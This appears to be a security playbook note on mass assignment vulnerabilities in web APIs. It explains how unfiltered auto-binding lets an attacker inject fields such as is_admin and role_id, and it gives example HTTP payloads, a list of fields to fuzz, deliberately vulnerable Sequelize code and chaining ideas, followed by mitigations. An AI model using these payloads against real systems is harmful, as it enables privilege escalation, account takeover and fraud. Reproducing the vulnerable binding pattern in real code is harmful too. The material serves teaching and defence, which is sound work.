

# Vulnerability Chain: Mass Assignment -> Admin Role -> Full Application Control

## Overview
This playbook explores Mass Assignment (also known as Auto-Binding or Object Injection), a severe logic vulnerability endemic to modern web frameworks (like Spring MVC, Ruby on Rails, Laravel, and NodeJS ORMs like Sequelize or TypeORM). The vulnerability occurs when frameworks automatically bind HTTP request parameters directly to internal object models without proper filtering or allowlisting. 

By strategically injecting unexpected parameters into a standard JSON payload or form submission, an attacker can modify sensitive backend object fields—most commonly escalating their privileges by forcibly assigning themselves an `admin` role, changing account balances, or bypassing status checks. This chain demonstrates how a simple profile update feature can lead to total application compromise.

## 1. The Anatomy of the Chain

The Mass Assignment exploitation process requires an attacker to infer the internal database schema and blindly inject parameters hoping the ORM will process them.

1. **Endpoint Identification**: The attacker identifies an endpoint that accepts input to create or update an object (e.g., `POST /api/users/register` or `PUT /api/users/profile`).
2. **Schema Guessing / Parameter Fuzzing**: The attacker guesses hidden administrative fields based on common naming conventions (e.g., `is_admin`, `role`, `permissions`, `group_id`).
3. **Payload Injection**: The attacker modifies the legitimate HTTP request, injecting the guessed parameter with a privileged value.
4. **Auto-Binding Flaw**: The backend framework automatically maps all provided input fields directly to the database object. Because the developer didn't implement a strict allowlist (Data Transfer Object / DTO), the injected field is written to the database.
5. **Privilege Escalation**: The attacker's account is updated in the database with administrative privileges, granting them full control over the application.

## 2. ASCII Diagram: Attack Architecture



## 3. Phase 1: Identifying the Target

Mass assignment vulnerabilities are almost exclusively found in endpoints dealing with data creation (`POST`) or modification (`PUT`, `PATCH`).

**Prime Targets:**
- User registration endpoints.
- Profile update forms.
- Checkout / Order manipulation.
- Password reset configurations.

The baseline request might look completely normal:
```http
PUT /api/v1/users/7788 HTTP/1.1
Host: target.com
Content-Type: application/json

{
  "first_name": "John",
  "last_name": "Doe",
  "email": "john@example.com"
}
```

## 4. Phase 2: Schema Inference and Fuzzing

Because the attacker cannot see the backend code, they must rely on information disclosure or brute-forcing to find sensitive fields.

### 4.1 Information Disclosure
Often, the API leaks the schema in the `GET` response.
If the attacker requests `GET /api/v1/users/7788`, the server might return an over-privileged response:
```json
{
  "id": 7788,
  "first_name": "John",
  "last_name": "Doe",
  "email": "john@example.com",
  "role_id": 2,
  "is_admin": false,
  "account_balance": 0.00
}
```
This is a massive gift. The API has just revealed the exact naming convention for the administrative flags (`role_id` and `is_admin`) and financial columns.

### 4.2 Parameter Fuzzing
If the API doesn't leak the schema, the attacker can use tools like Burp Intruder or Param Miner to inject hundreds of common fields into the JSON payload:
- `"is_admin": true`
- `"isAdmin": true`
- `"role": "admin"`
- `"role_id": 1`
- `"permissions": ["all"]`
- `"verified": true`
- `"status": "active"`

## 5. Phase 3: Exploitation and Auto-Binding

The attacker takes the baseline request and injects the discovered or guessed parameters.

**The Malicious Payload:**
```http
PUT /api/v1/users/7788 HTTP/1.1
Host: target.com
Content-Type: application/json
Authorization: Bearer <victim_jwt>

{
  "first_name": "John",
  "last_name": "Doe",
  "email": "john@example.com",
  "is_admin": true,
  "role_id": 1
}
```

**The Vulnerable Code (Node.js/Sequelize Example):**
```javascript
app.put('/api/v1/users/:id', async (req, res) => {
  const user = await User.findByPk(req.params.id);
  // VULNERABILITY: req.body is passed directly to the update function
  await user.update(req.body); 
  res.send(user);
});
```

Because the `update()` function dynamically iterates over every key in `req.body` and maps it to a column in the `Users` table, the ORM happily updates the `is_admin` and `role_id` columns, circumventing all business logic and security intent.

## 6. Phase 4: Full Application Control

Upon successful execution, the server might return a `200 OK`. 
The attacker refreshes their session token or logs out and logs back in. 
Because their database record now reflects `is_admin = true`, the application renders the Administrator Dashboard, granting them access to:
- View all user data and PII.
- Modify application settings.
- Access administrative APIs.
- Potentially achieve RCE through admin-only features (e.g., plugin uploads, template editing, or SQL execution tools).

## 7. Advanced Scenarios

### 7.1 Bypassing Basic Protections (Nested Objects)
If a framework protects the root object but allows nested objects, an attacker can exploit mass assignment on relationships.
```json
{
  "user": {
    "name": "Attacker",
    "Company": {
      "id": 1,
      "status": "APPROVED" 
    }
  }
}
```
This can forcefully link a user to a company they shouldn't belong to, or automatically approve a pending entity by exploiting the relationship auto-binding.

### 7.2 Overwriting Password Hashes
If an attacker injects `"password": "my_new_plaintext_password"`, and the framework automatically hashes the incoming parameter via a model hook before saving, the attacker can silently change another user's password if the endpoint is vulnerable to IDOR. This bypasses the need for the victim's current password.

## 8. Defensive Measures and Mitigation

### 8.1 Use Data Transfer Objects (DTOs)
Never bind the HTTP request payload directly to the database model. Create intermediate classes (DTOs) that only contain the fields the user is allowed to modify. Map the DTO to the model manually.

### 8.2 Explicit Parameter Allowlisting
Modern frameworks provide mechanisms to specify exactly which fields can be mass-assigned.
- **Ruby on Rails**: Use `Strong Parameters`.
  ```ruby
  def user_params
    params.require(:user).permit(:first_name, :last_name, :email)
  end
  ```
- **Laravel (PHP)**: Use the `$fillable` array in the Model.
  ```php
  protected $fillable = ['first_name', 'last_name', 'email'];
  ```
- **Spring (Java)**: Use `@JsonIgnore` on sensitive entity fields or strictly bind variables using `@InitBinder`.

### 8.3 Disconnect Read Models from Write Models
Implement CQRS (Command Query Responsibility Segregation). The object returned in a GET request should not be the same programmatic object used to process a PUT/POST request.

## 9. Chaining Opportunities
- **Mass Assignment -> Account Takeover**: Overwriting the `password_reset_token` or `email` fields to hijack an account.
- **Mass Assignment -> Financial Fraud**: Modifying the `account_balance`, `discount_rate`, or `price` fields during checkout flows.
- **BOLA + Mass Assignment**: Exploiting Broken Object Level Authorization to edit another user's profile, combined with mass assignment to make that user an admin, covering the attacker's tracks.

## 10. Related Notes
- [[03 - API3 — Broken Object Property Level Authorization]]
- [[01 - API1 — Broken Object Level Authorization (BOLA)]]
- [[18 - Advanced Fuzzing Strategies]]
- [[02 - API2 — Broken User Authentication]]
